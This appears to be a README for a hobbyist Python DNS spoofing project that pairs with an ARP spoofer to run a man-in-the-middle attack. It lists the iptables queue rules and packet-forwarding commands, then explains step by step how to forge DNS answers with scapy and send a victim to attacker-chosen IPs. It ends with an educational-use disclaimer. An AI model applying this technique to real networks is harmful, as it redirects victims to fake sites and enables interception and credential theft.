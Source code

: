 # DNS SPOOFER

**Purpose**

A computer program that can spoof a web server DNS and send fake websites and information to its victim.

**Our Purpose**

I wanted to utilize a man in the middle attack so that I could pass my own custom information to a victim

**Stipulations**

This Spoofer is written on python 2.7 and the netfilterqueue is native to python 2.7
---
To run this DNS SPOOFER  first
    1.)
        
        FOR LOCAL BROWSER DO THIS:
        
        1.iptables -I OUTPUT -j NFQUEUE --queue-num 0
        2.iptables -I INPUT -j NFQUEUE --queue-num 0
        
        FOR EXTERNAL MACHINES BROWSER:

        1.iptables -I FORWARD -j -NFQUEUE --queue-num0

    2.) Install netfilterqueue using pip commands (only on python 2.7 as of now)
    3.) Run the arp_spoofer program to establish the "Man-in-the-Middle" connection
    4.) Run the dns_spoofer in tandem as the arp_spoofer will allow you the connection
---
To allow packet forwarding from your Dabien Linux Terminal use the command:
    echo 1 > /proc/sys/net/ipv4/ip_forward
---
# Code and Tools
**Code Breakdown**
 I created these methods:
    1. process_packet(packet) ----> processes captured packet and uses it to spoof
    
---
**Tools**
process_packet(packet):
    ->use scapy tools us as get_payload() method to create a custom scapy packet
    ->used custom scapy packet to amnipulate data
    ->check if packet has DNS request layer using .haslayer(scapy.DNSRR)
    ->create a variable to store the query name using scapy_packet[scapy.DNSQR].qname
    ->use conditional to check if given data is in the query name
    ->create a custom answer field using scapy.DNSRR(rrname, rdata)
    ->manipulated the rrname and the rdata to the query name (qname) and a custom ip respectively
        -: this changes the values in the DNS request that will be sent to the victm and the DNS server
    ->Deleted the len and chksum from the IP and UDP sections
        -:Allows for us to bypass the DNS servers fail safe to ensure that we are not tampering
            del scapy_packet[scapy.IP].len
            del scapy_packet[scapy.IP].chksum
            del scapy_packet[scapy.UDP].len
            del scapy_packet[scapy.UDP].chksum
    ->Set the custom scapy packet payload to the packet that we are returning
        -:packet.set_payload(str(scapy_packet))

---
# Disclaimer
**Notice**
    This program is run on my own virtual box machines and set up. The code in this project can be and should be editied to fit you ip and mac address specifications. Ideal set up is necessary for proper efficeny.
---
***WARNING***
THIS CODE IS NOT USED FOR MALLICIOUS INTENT AND IS AN EDUCATIONAL PROJECT USED TO SHOWCASE MY ABILITIES AS A ETHICAL HACKER.
IF THIS CODE IS UTILIZED IN ANY FORM OF MALLICIOUS INTENT, BE INFORMED THAT PROPER LEAGAL COURSE OF ACTION CAN BE TAKEN ON THOSE WHO
USE IT BY LAW ENFORCEMENT AGENCIES.




